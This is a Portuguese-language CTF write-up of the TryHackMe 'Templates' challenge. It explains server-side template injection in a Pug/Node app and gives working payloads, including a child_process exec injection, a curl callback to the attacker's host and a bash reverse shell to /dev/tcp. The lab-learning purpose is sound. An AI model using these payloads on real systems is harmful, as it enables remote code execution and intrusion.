





# Templates - THM Challenge writeup

Ao iniciar a instancia do challenge temos uma breve descrição de uma porta rodando uma aplicação web

```http://<ip>:5000```



Ao abrirmos a aplicação, temos uma página que aplica renderização de template. E entramos em um tema que gosto muito, template injection.

<br>
<p style="text-align: center; font-size: 1.6rem">Server side template injection</h1>

A aplicação como todos sabemos tem o client side e o server side. Quando a aplicação usa template engine, o client side usa de linguagens do server para fazer a renderização. Vamos pensar no python com Flask... O front end vai usar de uma template engine chamada Jinja2, um servidor node pode usar handlebars ou EJS.

Esses modelos são muito visto, quando aplicações usam arquiteturas MVC - Model, View, Controller. O proprio controller invoca o arquivo de renderização direto do lado do servidor. Agora podemos seguir ao desafio.

Sabendo que temos uma possiblidade de template injection, a primeira coisa que fazemos é achar o famoso 49.



Então temos 2 informações na imagem acima, a primeira foi que o challenge deu o nome da template pra gente - PUG. Caso queiram ler mais sobre https://pugjs.org/api/getting-started.html. A segunda informação é que estamos fazendo uma operação dentro do template, o que se estivermos certos vai resultar em 49.


Agora sabemos o que fazer, vamos buscar payloads já existentes para o template PUG.

https://exploit-notes.hdks.org/exploit/web/template-engine/pug-pentesting/



```#{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad("child_process").exec('id')}()}```

Testando o script SSTI acima, não tivemos sucesso. Vasculhando o código fonte da página principal, achei o que parece ser um WAF 



Aparentemente, o waf filtra o stdout que estamos solicitando, mas será que executa o que pedimos?

Vamos mandar uma request para uma porta aberta em nossa máquina.

```
#{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad("child_process").exec('curl <ip>:9003')}()}
```



Recebemos a solicitação.

```
#{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad("child_process").exec('bash -c "sh -i >& /dev/tcp/10.8.8.52/1337 0>&1"')}()}
```

Tempo de conclusão: 2 horas